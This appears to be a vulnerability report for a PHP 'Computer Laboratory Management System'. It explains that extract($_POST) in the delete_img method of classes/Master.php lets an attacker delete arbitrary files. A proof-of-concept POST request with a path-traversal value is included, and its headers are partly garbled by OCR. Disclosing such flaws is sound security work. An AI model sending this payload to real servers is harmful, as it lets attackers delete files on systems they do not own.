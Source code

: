 # Computer Laboratory Management System using PHP and MySQL - Arbitrary file deletion

In classes/Master.php, the `delete_img` method contains `extract($_POST)`.

![](image/image_r5xxk87E5G.png)

By variable override, the `$path` variable can trigger `unlink($path)`, allowing for the deletion of any file.

```http
POST /php-lms/classes/Master.php?f=delete img HTTP/1.1
Host:192.168.3.182
Cache-Control:max-age=0
Upgrade-Insecure-Requests:1User-Agent: Mozilla/5.0 (Windows N 10.0; Win64; x64)AppleWebKit/537.36 (KHTML, like Gecko)Chrome/122.0.6261.112 Safari/537.36
Accept :text /html, application/xhtml+xml, application xml;g=0.9, image/avif, image/webp, image/apng, */*; g=0. 8, application/signed-exchange;v=b3;q=0.7
Accept-Encoding:gzip,deflate,br
Accept-Language:zh-CN,zh;q=0.9
Cookie:PHPSESSID=me1t3n4nemvaf39r7udbqla18v: XDEBUG SESSION=12980
Connection:close
Content-Type:application/x-www-form-urlencodedContent-Length:16

path=../../1.txt
```

![](image/image_0CjLID8mBE.png)

The file 1.txt has been deleted.

![](image/image_Z6bBRcQ-tQ.png)
